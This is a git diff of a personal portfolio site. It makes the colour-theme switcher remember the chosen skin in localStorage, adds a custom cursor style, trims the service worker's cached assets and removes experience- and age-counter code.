linkgoldenrod=document.createElement("link");linkgoldenrod.rel="stylesheet",linkgoldenrod.type="text/css",linkgoldenrod.href="css/skins/goldenrod.css",document.getElementById("goldenrod").onclick=function(){document.head.appendChild(linkgoldenrod)};var linkorange=document.createElement("link");linkorange.rel="stylesheet",linkorange.type="text/css",linkorange.href="css/skins/orange.css",document.getElementById("orange").onclick=function(){document.head.appendChild(linkorange)},document.getElementById("toggle-switcher").onclick=function(){document.getElementById("switcher").classList.toggle("show-switcher")};
+var linkred = document.createElement("link");
+linkred.rel = "stylesheet", linkred.type = "text/css", linkred.href = "css/skins/red.css", document.getElementById("red").onclick = function() {
+    localStorage.setItem("theme_colour", "red");
+    document.head.appendChild(linkred)
+};
+var linkyellow = document.createElement("link");
+linkyellow.rel = "stylesheet", linkyellow.type = "text/css", linkyellow.href = "css/skins/yellow.css", document.getElementById("yellow").onclick = function() {
+    localStorage.setItem("theme_colour", "yellow");
+    document.head.appendChild(linkyellow)
+};
+var linkgreen = document.createElement("link");
+linkgreen.rel = "stylesheet", linkgreen.type = "text/css", linkgreen.href = "css/skins/green.css", document.getElementById("green").onclick = function() {
+    localStorage.setItem("theme_colour", "green");
+    document.head.appendChild(linkgreen)
+};
+var linkgreen2 = document.createElement("link");
+linkgreen2.rel = "stylesheet", linkgreen2.type = "text/css", linkgreen2.href = "css/skins/green2.css", document.getElementById("green2").onclick = function() {
+    localStorage.setItem("theme_colour", "green2");
+    document.head.appendChild(linkgreen2)
+};
+var linkblue = document.createElement("link");
+linkblue.rel = "stylesheet", linkblue.type = "text/css", linkblue.href = "css/skins/blue.css", document.getElementById("blue").onclick = function() {
+    localStorage.setItem("theme_colour", "blue");
+    document.head.appendChild(linkblue)
+};
+var linkblue2 = document.createElement("link");
+linkblue2.rel = "stylesheet", linkblue2.type = "text/css", linkblue2.href = "css/skins/blue2.css", document.getElementById("blue2").onclick = function() {
+    localStorage.setItem("theme_colour", "blue2");
+    document.head.appendChild(linkblue2)
+};
+var linkpink = document.createElement("link");
+linkpink.rel = "stylesheet", linkpink.type = "text/css", linkpink.href = "css/skins/pink.css", document.getElementById("pink").onclick = function() {
+    localStorage.setItem("theme_colour", "pink");
+    document.head.appendChild(linkpink)
+};
+var linkpink2 = document.createElement("link");
+linkpink2.rel = "stylesheet", linkpink2.type = "text/css", linkpink2.href = "css/skins/pink2.css", document.getElementById("pink2").onclick = function() {
+    localStorage.setItem("theme_colour", "pink2");
+    document.head.appendChild(linkpink2)
+};
+var linkgoldenrod = document.createElement("link");
+linkgoldenrod.rel = "stylesheet", linkgoldenrod.type = "text/css", linkgoldenrod.href = "css/skins/goldenrod.css", document.getElementById("goldenrod").onclick = function() {
+    localStorage.setItem("theme_colour", "goldenrod");
+    document.head.appendChild(linkgoldenrod)
+};
+var linkorange = document.createElement("link");
+linkorange.rel = "stylesheet", linkorange.type = "text/css", linkorange.href = "css/skins/orange.css", document.getElementById("orange").onclick = function() {
+    localStorage.setItem("theme_colour", "orange");
+    document.head.appendChild(linkorange)
+}, document.getElementById("toggle-switcher").onclick = function() {
+    document.getElementById("switcher").classList.toggle("show-switcher")
+};

diff --git a/index.html b/index.html
@@ -20,7 +20,21 @@
       <!-- Main CSS File -->
       <link rel="stylesheet" type="text/css" href="css/style.css">
       <!-- Main Color File -->
-      <link rel="stylesheet" type="text/css" href="css/skins/green.css">
+      <script>
+         const ThemeColourLocalStorageValue = localStorage.getItem("theme_colour");
+         if (ThemeColourLocalStorageValue) {
+             let index_css_link = document.createElement('link');
+             index_css_link.href = 'css/skins/' + ThemeColourLocalStorageValue + '.css';
+             index_css_link.rel = 'stylesheet';
+             document.getElementsByTagName('head')[0].appendChild(index_css_link);
+         } else {
+             localStorage.setItem("theme_colour", 'green');
+             let index_css_link = document.createElement('link');
+             index_css_link.href = 'css/skins/green.css';
+             index_css_link.rel = 'stylesheet';
+             document.getElementsByTagName('head')[0].appendChild(index_css_link);
+            }
+            </script>
       <!-- Color Switcher - Only Demo -->
       <link rel="stylesheet" type="text/css" href="css/colorswitcher.css">
 
@@ -28,6 +42,7 @@
     <link rel="apple-touch-icon" href="./images/manifest/main.png">
    </head>
    <body class="sound-on">
+      <div class="cursor"></div>
        <!-- Color Switcher Starts / Only Demo -->
        <div id="switcher" class="switcher">
          <p>Color Switcher
@@ -186,7 +201,7 @@
                <li class="item" onclick="openItem(this)">
                   <img src="img/projects/project-1.jpg" alt="">
                   <div class="title">
-                     <span>London</span>
+                     <span>Morden Shop</span>
                   </div>
                </li>
                <!-- Portfolio Single Item Ends -->

diff --git a/sw.js b/sw.js
@@ -19,15 +19,12 @@ const coreAssets = [
     './css/skins/yellow.css',
 
     './js/colorswitcher.js',
-    './js/index.js',
     './js/custom.js',
     './js/pwa.js',
 
     './images/favicon/favicon.ico',
 
-    './img/mypicture-160x160-old.jpg',
     './img/mypicture-160x160.jpg',
-    './img/mypicture-old.jpg',
     './img/mypicture.jpg',
     './img/shape1.png',
     './img/shape2.png',
@@ -55,16 +52,17 @@ const coreAssets = [
 
     './images/RC_Logo_Black.png',
     './images/RC_Logo_White.png',
-    './images/manifest/bulb-icon.svg',
-    './images/manifest/contact-icon.svg',
+
     './images/manifest/email-icon.svg',
     './images/manifest/home-icon.svg',
     './images/manifest/icon-96x96.png',
     './images/manifest/icon-192x192.png',
     './images/manifest/icon-512x512.png',
     './images/manifest/icon-512x512.svg',
+
     './images/manifest/main.png',
     './images/manifest/port-icon.svg',
+
     './images/manifest/SSn1.png',
     './images/manifest/SSn2.png',
     './images/manifest/SSn3.png',
@@ -80,6 +78,7 @@ const coreAssets = [
     './fonts/icomoon_avargk.woff',
 
     './pdf/RajeshChavda.pdf',
+    './pdf/Rajesh Chavda.pdf',
     
     './sounds/click.mp3',
     './sounds/hover.mp3',

diff --git a/css/style.css b/css/style.css
@@ -360,7 +360,7 @@ body.dark {
 .dark .home .home-content:before,
 .dark .home .home-content:after,
 .dark .main-section.home>img {
-	display: none;
+	filter: invert(1);
 }
 
 .dark .soundmodal {
@@ -2569,6 +2569,25 @@ body.dark {
 .color-black{
 	color: black;
 }
+body .cursor {
+    height: 50px;
+    width: 50px;
+    display: block;
+    border-radius: 50%;
+    border: 1px solid #000;
+    background: transparent;
+    pointer-events: none;
+    position: fixed;
+    top: -25px;
+    left: -25px;
+    z-index: 10;
+    opacity: 0.6;
+    transition: scale 0.5s ease;
+}
+
+body.dark .cursor {
+    border: 1px solid whitesmoke;
+}
 
 /* [ RESPONSIVE DESIGN ] */
 /*================================================== */
@@ -3256,5 +3275,11 @@ body.dark {
 
 	.social ul li a{
 		font-size: 16px;
+	}
+}
+
+@media(max-width:1025px) {
+	.cursor {
+		display: none !important;
 	}
 }

diff --git a/js/index.js b/js/index.js
@@ -202,15 +202,6 @@
 // });
 
 
-const currentYear = new Date().getFullYear();
-const experienceStartingYear = 2019;
-const experienceYearDifference = currentYear - experienceStartingYear;
-const totalExperienceYearsHome = document.getElementById('total-experience-years-home').innerHTML = experienceYearDifference;
-const totalExperienceYearsAbout = document.getElementById('total-experience-years-about').innerHTML = experienceYearDifference;
 
-const ageStartingYear = 2000;
-const ageYearDifference = currentYear - ageStartingYear;
-const ageAbout = document.getElementById('age-about').innerHTML = ageYearDifference;
 
-const totalProjectsAbout = document.getElementById('total-projects-about').innerHTML = (experienceYearDifference+1)+'7';
-const totalCustomersAbout = document.getElementById('total-customers-about').innerHTML = (Math.floor(experienceYearDifference/2))+'3';
+
